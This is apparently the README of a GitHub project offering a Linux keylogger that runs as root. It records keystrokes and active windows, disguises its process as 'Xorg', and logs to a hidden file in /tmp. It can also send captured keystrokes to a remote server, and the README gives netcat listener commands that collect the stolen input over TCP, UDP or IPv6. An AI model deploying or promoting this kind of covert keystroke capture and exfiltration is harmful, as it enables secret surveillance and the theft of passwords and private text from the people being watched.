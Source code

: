 # Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE:

######`[TCP]`
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
######`[UDP]`
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- ######`[IPv6]`
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
